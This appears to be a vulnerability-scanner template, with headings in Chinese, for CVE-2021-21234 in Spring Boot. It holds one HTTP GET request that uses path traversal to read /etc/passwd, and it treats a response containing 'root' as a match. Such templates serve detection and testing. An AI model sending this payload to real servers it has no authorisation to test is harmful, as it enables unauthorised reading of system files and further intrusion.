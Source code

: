 ﻿# CVE_2021_21234_1

> 更新时间：2023-12-04

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：

> 验证脚本：HTTP

```
GET /manage/log/view?filename=/etc/passwd&base=../../../../../../../../../../../../ HTTP/1.1
```

> 响应代码特征：-1

> 响应内容特征：root

> 上传文件定位：

> 验证文件来源：Spring_CVE_2021_21234_1.poc
